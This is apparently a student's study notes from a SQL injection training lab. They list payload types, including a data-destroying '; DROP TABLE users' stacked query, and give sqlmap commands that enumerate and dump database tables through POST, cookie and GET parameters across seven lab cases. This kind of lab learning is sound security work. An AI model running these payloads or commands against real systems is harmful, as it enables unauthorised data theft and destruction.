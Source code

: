 # <span style=color:red>Database</span>
```
Web App/Services
 |
 |--DBS
    |
    |--Database
        |
        |---Table
             |
             |---Column
                  |
                  |---Data
```

---
# <span style=color:red>SQL Injection Types</span>
* Boolean-based blind
    * AND 1=1
* Error-base
    * AND GTID_SUBSET(@@version,0)
* UNION query-based
    * UNION ALL SELECT 1,@@version,3
* Stacked queries
    * ; DROP TABLE users
* Time-based blind
    * AND 1=IF(2>1,SLEEP(5),0)
---
* --crawl、--forms或-g
    * auto find parameter
* -r req.txt
    * burp to save as req.txt 
![image](https://hackmd.io/_uploads/r13KXNI4R.png)
* --parse-errors
    * to parse the DBMS errors
* --method PUT
# <span style=color:red>Tuning</span>
* --prefix="%'))" --suffix="-- -"
* --level=5 --risk=3
* --technique
    * --technique=u
        * UNION
---
## <span style=color:#44D62C>Case1</span>
![image](https://hackmd.io/_uploads/r1tH6QUVR.png)
---
## <span style=color:#44D62C>Case2</span>
![image](https://hackmd.io/_uploads/HJGBqE8NC.png)
* sqlmap 'http://94.237.57.173:35918/case2.php' --data 'id=1*' --dbs
* sqlmap 'http://94.237.57.173:35918/case2.php' --data 'id=1*' -D testdb --tables
* sqlmap 'http://94.237.57.173:35918/case2.php' --data 'id=1*' -D testdb -T flag2 --dump
---
## <span style=color:#44D62C>Case3</span>
![image](https://hackmd.io/_uploads/B1L35VUNR.png)

![image](https://hackmd.io/_uploads/Hk-WaVUV0.png)
* 修改cookie欄位發現可以切換資料
* sqlmap 'http://94.237.57.173:35918/case3.php' --cookie 'id=1*' --dbs
* sqlmap 'http://94.237.57.173:35918/case3.php' --cookie 'id=1*' -D testdb --tables
* sqlmap 'http://94.237.57.173:35918/case3.php' --cookie 'id=1*' -D testdb -T flag3 --dump
* 官方解答<span style=color:red>sqlmap -u 'http://STMIP:STMPO/case3.php' -H 'Cookie: id=*' --batch --dump</span>
    * 這樣反而dump不出來?
        * 05/31得解, 因為她id=1*才對, 官方答案錯誤
![image](https://hackmd.io/_uploads/H1m9fBLV0.png)
---
## <span style=color:#44D62C>Case4</span>
* 回家補圖, burp攔截的圖
* sqlmap -r request.txt --dump
---
## <span style=color:#44D62C>Case5</span>
* sqlmap -u 'http://94.237.55.246:31216/case5.php?id=1' --risk 3 --level 5 --dbs --batch
* sqlmap -u 'http://94.237.55.246:31216/case5.php?id=1' --risk 3 --level 5 --T flag5 --batch
---
## <span style=color:#44D62C>Case6</span>
* sqlmap -u 'http://94.237.55.246:31216/case6.php?col=*' -T flag6 --dump --batch
---
## <span style=color:#44D62C>Case7</span>
* sqlmap -u 'http://94.237.55.246:31216/case6.php?id=1*' -T flag7 --dump --batch --technique=U
---
# <span style=color:red>Challege</span>
* --ignore-code 401